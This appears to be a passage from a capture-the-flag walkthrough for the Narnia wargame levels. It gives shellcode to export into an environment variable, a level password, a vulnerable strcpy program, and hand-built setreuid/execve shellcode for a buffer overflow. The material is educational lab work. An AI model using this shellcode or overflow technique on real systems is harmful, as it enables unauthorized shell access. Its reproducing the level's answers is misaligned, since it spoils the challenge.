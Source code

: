 
To solve this exercise you need to put the shellcode in the env var EGG.


```bash
$ export EGG=$(python -c 'print "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"')
```


##### PASS=nairiepecu


#
#
#


------------------------------------------------------------------------------------------------------------------------------------

## narnia2 -> narnia3

```C
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
	char buf[128];

	if(argc == 1){
		printf("Usage: %s argument\n", argv[0]);
		exit(1);
	}
	strcpy(buf,argv[1]);
	printf("%s", buf);

	return 0;
}
```

Here we have a classic BO (remember we have no ASLR and NX bit disabled). I approached this challenge by doing a ret2libc attack, but the shell spawned by this attack simply does not have narnia3 suid permission so we have to call setreuid with id of narnia3 user found in /etc/passwd.

narnia3 user id is 14003, so i could do a ret2libc composed by a call to setreuid and then a system bash. Alternatively is possible to perform a ropchain. 
I decided to exploit this challenge by making my own shellcode.


###### xor    %ebx,%ebx  `\x31\xdb`  
###### lea    0x17(%ebx),%eax `\x8d\x43\x17`           
###### int    $0x80 `\xcd\x80` 
###### push   %ebx `\x53`                             
###### push   $0x68732f6e `\x68\x6e\x2f\x73\x68`       
###### push   $0x69622f2f `\x68\x2f\x2f\x62\x69`      
###### mov %esp,%ebx `\x89\xe3`               
###### push %eax `\x50`                             
###### push %ebx `\x53`                             
###### mov %esp,%ecx     `\x89\xe1`               
###### cltd `\x99`                                    
###### mov $0xb,%al`\xb0\x0b`                      
###### int $0x80 `\xcd\x80` 
#
#
#
